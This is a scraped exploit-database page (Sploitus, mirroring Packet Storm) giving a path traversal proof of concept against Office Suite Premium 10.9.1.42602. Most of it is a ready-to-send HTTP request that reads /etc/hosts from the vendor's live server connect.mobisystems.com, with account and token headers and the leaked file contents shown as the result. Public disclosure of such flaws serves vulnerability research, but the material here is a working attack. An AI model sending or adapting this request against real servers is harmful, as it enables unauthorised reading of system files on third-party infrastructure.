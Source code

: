 ```yaml
---
title: Office Suite Premium 10.9.1.42602 Path Traversal exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173145&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-28
fetch_date: 2025-10-04T11:46:10.451146
---
```


# Office Suite Premium 10.9.1.42602 Path Traversal exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Office Suite Premium 10.9.1.42602 Path Traversal

2023-06-27 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173145
# Exploit Title: Office Suite Premium 10.9.1.42602 - Path Traversal
# Date: 06-26-2023
# Exploit Author: tmrswrr
# Vendor Homepage: https://www.mobisystems.com/
# Software Link: https://apps.apple.com/us/app/officesuite-docs-pdf-editor/id924005506
# Version: Office Suite Premium 10.9.1.42602
# Tested on: Ubuntu 18.04

# POC

GET /../../../../../../../../../../../../../../../etc/hosts HTTP/2
Host: connect.mobisystems.com
Accept: */*
Clv: 42602
Pushtkn: msc://CD3D8C6E-A727-4674-A1AB-B4455990B4A7:com.mobisystems.ios.office.free
Accept-Language: tr-TR,tr;q=0.9
Accept-Encoding: gzip, deflate
App: com.mobisystems.ios.office.free
User-Agent: OfficeSuiteFree2/42602 CFNetwork/1404.0.5 Darwin/22.3.0
Gdpr: true
Account: 234c89ff-7e80-4b64-9d35-8653fe131795
Tkn: 3cb5e874-51a4-4526-96d5-82c6321fdd19

Result :

127.0.0.1 localhost 169.254.169.254 metadata.google.internal metadata 169.254.169.253 appengine.googleapis.internal appengine

Url: https://connect.mobisystems.com/etc/hosts
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
